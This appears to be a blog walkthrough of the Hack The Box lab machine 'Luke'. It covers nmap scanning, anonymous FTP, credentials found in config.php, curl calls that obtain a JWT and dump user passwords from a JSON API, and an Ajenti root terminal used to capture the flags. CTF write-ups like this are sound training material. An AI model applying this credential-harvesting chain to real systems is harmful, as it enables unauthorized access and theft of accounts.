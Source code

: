 +++
author = "Nick"
categories = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
date = 2019-09-14T13:52:03Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/07/infocard-1.png"
slug = "hack-the-box-luke"
summary = "Back with a quick write-up on the box Luke from HtB"
tags = ["ssh", "dirb", "enumeration", "curl", "JSON", "ajani", "terminal", "plugins"]
title = "Hack The Box - Luke"

+++


Back with a quick write up on the box Luke from HtB. Let me preface this with, for whatever reason, I had a hard time with this, until I realized I forgot part of my enumeration steps. Derp, well, off we go!

As usual we start it off with a standard nmap scan.

```
nmap -sC -sV -oA ./scan 10.10.10.137
```

We get back a fairly small listing of results.

```
Nmap scan report for 10.10.10.137
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14 12:35 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.15.29
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp open  ssh?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.86 seconds
```

Well, lets see what port 21 has in store for us. We log in and we get a directory, as show above, called webapp. We change to the dir and see that there's one file here. We download it and cat it:

![](/images/2019/07/image-26.png)

Well, interesting, we pop over to port 80 on the box and we have content there. However, nmap didn't show the port available. Let's rerun our nmap with all ports.

```
nmap -p 1-65535 10.10.10.137
```

This time we see a bit of a different response. I've found that newer boxes on HTB tend to be very unstable, we'll chalk this one up to that.

![](/images/2019/07/image-28.png)

So the first thing we're going to do is head over to port 8000 and see what we have. We're greeted with a Ajenti login page. Lets try the basics and see if it lets us pass, the default of root / admin for the Ajenti install. No dice. We also see port 3000 running when we browse to it we see a JSON returned with 'Auth token is not supplied'.

![](/images/2019/07/image-27.png)

We see a few locations. It looks like the management is returning code 401, which means we need a password to get there. We'll also enumerate using Dirbuster, omitting directories, to see what files we come back with. Sure enough we find a config.php file. Inside we have some credentials!

![](/images/2019/07/image-31.png)

So we try them against the port 8000 login, nothing. We try them against management, nothing. We try them against /login.php, nothing. Well maybe we can use them to authenticate against the API on port 3000. To do this we can use Curl.

```
curl --header "Content-Type: application/json" --request POST --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```
or
```
curl -H "Content-Type: application/json" -X POST -d'{"password":"Zk6heYCyv6ZE9Xcg", "username":"root"}' http://10.10.10.137:3000/login
```

Damn, that didn't work. However, our research on port 3000 shows that root isn't an acceptable (unless created otherwise) account. Admin is the account it normally uses. So in the above, we replace root with admin and we get a token back.

```
{"success":true,
"message":"Authentication successful!",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY3MjE5LCJleHAiOjE1NjM0NTM2MTl9.Jp9s0VKON-ZMEh_LLv8rOoV3ARET09MzMm1CLm0Lo4Q"}
```

Now we can use that token to authenticate and use other API endpoints. To test this we issue another curl to the root of the 3000 port and see what is returned, with some luck it will be an authentication acknowledgement.

```
curl -X GET 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000
```
and we get back 
```
{"message":"Welcome admin ! "}
```

Awesome, now lets use this to enumerate! We our dirb shows that we have a /users enpoint, lets pull that data. We get an output of 4 users.

```
[{"ID":"1","name":"Admin","Role":"Superuser"},
{"ID":"2","name":"Derry","Role":"Web Admin"},
{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```

In this case we will pull each user name to see what data is held.

```
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTYzMzY2Njk1LCJleHAiOjE1NjM0NTMwOTV9.zpdpGBmtcLxmP7tHjlrrTblztksZGQkuxV7wWlJgllw' http://10.10.10.137:3000/users/USERNAMEHERE

```

Sure enough data is held inside, as we expected.

```
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}
{"name":"Yuri","password":"bet@tester87"}
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}
```

Now that we have some passwords and usernames, we should try them against the many login pages we had before. None work on port 8000, lets head back to the /login.php on port 80. None of those worked there, lets try the /management. Looks like the credentials for Derry worked.

![](/images/2019/07/image-33.png)

We already know that what the login.php and config.php. Lets take a look at the config.json. When we load it we seem to have the Ajani config file which contains some goodies. The first thing we see is that Terminal plug is running a shell root. So we can probably use that to gain our flags. We also have the root username and password. This should be smooth sailing from here!

We load up port 8000 and log in with the credentials we've found. Once logged in we scope out the install and see what this is all about. At the bottom of the navigation pane we have the option for Terminal.

![](/images/2019/07/image-34.png)

Looks like we should take it for a spin. Once it's loaded head over to root and snag the flag.

![](/images/2019/07/image-35.png)

After that we head to /root/usr/home/derry to snag his user.txt.

![](/images/2019/07/image-36.png)

We are done! A quick and easy box. The hardest part for some might be learning how to use curl against the API. See you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

